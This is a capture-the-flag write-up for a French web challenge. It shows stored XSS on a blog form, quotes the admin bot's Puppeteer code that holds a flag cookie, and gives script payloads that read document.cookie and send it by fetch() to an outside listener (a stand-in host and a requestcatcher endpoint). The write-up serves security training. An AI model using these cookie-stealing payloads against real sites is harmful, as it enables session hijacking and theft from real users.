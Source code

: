 # Safari Zone [1/2]

We land on a web site with a simple form to post on a blog. My first reflex is to test for XSS with a very basic payload : `<h1> Title </h1>` : 

![[Pasted image 20240906164800.png]]

The html payload has been interpreted as so. So, the site is vulnerable to XSS. But we don't know where the flag could be.  

![[Pasted image 20240906164819.png]]

By analyzing the source code of this challenge we can see that for each new post on the blog a bot is validating the post. 

```js
// ceci est un bot admin qui automatise la validation des posts !
// enfin la validation des posts n'est pas encore implémentée, mais c'est pour bientôt !
// en attendant, le bot visite les posts quand même, c'est déjà ça !
// attention, le cookie flag est secret et ne doit pas être volé /!\

const puppeteer = require('puppeteer');

const sleep = (ms) => new Promise((resolve) => setTimeout(resolve, ms));

async function visit(id) {
  const browser = await puppeteer.launch({
    executablePath: process.env.CHROME_BIN || "/usr/bin/google-chrome-stable",
    args: [
      "--no-sandbox",
      "--disable-gpu",
      "--disable-jit",
      "--disable-wasm",
      "--ignore-certificate-errors",
      "--incognito",
    ],
    headless: true,
  });

  try {
    const page = await browser.newPage();
    await page.setCookie({
      name: "flag",
      value: process.env.FLAG || "Star{fake_flag}",
      domain: "localhost",
    });
    const port = process.env.PORT || 1337;
    await page.goto(`http://localhost:${port}/post/${id}`);
    await sleep(1000);
    await page.close();
  } catch (e) {
    console.error("Error during visit:", e.message);
  } finally {
    await browser.close();
  }
}

module.exports = { visit };
```

That means that after one post the flag has been stored as a cookie on the backend server. Using the XSS we will drop the cookie on the backend and then forward the cookie to a listener. The payload is : 

```html
<script> fetch('http://your-server.com/log?cookie=' + document.cookie); </script>
```

We create a https://requestcatcher.com/ page : https://drachh.requestcatcher.com

```html
<script> 
	fetch('https://drachh.requestcatcher.com?cookie=' + document.cookie); 
</script>
```

We post a new article on the blog and then we wait for the request catcher to get the flag : 

![[Pasted image 20240906165820.png]]

![[Pasted image 20240906165836.png]]

Flag : `Star{l00k_at_m3_1m_th3_adm1n_n0w}`